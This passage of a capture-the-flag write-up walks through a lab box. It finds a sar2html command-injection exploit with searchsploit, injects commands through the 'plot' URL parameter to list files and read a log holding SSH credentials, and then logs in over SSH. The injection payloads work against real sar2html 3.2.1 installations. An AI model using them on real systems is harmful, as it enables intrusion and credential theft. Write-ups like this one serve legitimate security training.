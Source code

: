 ![Desktop View](BoilerCTF_test.png)

Checking for any publicly available exploit for this technology.

```bash
❯ searchsploit sar2html
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                           | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                               | php/webapps/47204.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

We found one vulnerability, checking a bit how it works, we can see that the parameter `plot` is vulnerable to **command injection**, we can inject a command and see the output in the *Select Host* button.

We can inject the command `id`, using the following payload.

```bash
http://10.10.12.1/joomla/_test/index.php?plot=; id
```

After executing we can see the output in the *Select Option*.

![Desktop View](BoilerCTFRCEOutput.png)

I don't know why, but i was not capable to gain a reverse shell, so checking if we can read any sensitive file i found a file named `log.txt`.

```bash
http://10.10.12.1/joomla/_test/index.php?plot=; ls
```

![Desktop View](BoilerCTFListing.png)

Checking it's content, we can what looks like a `ssh` authentication log where we found credentials for the user `basterd`.

```bash
http://10.10.12.1/joomla/_test/index.php?plot=; cat log.txt
```

![Desktop View](BoilerCTFLog.png)

So, we now own credentials for the user `basterd`, since `ssh` is active at port **55007**, let's try to log in.

```bash
❯ ssh basterd@10.10.12.1 -p 55007
basterd@10.10.12.1's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ whoami
```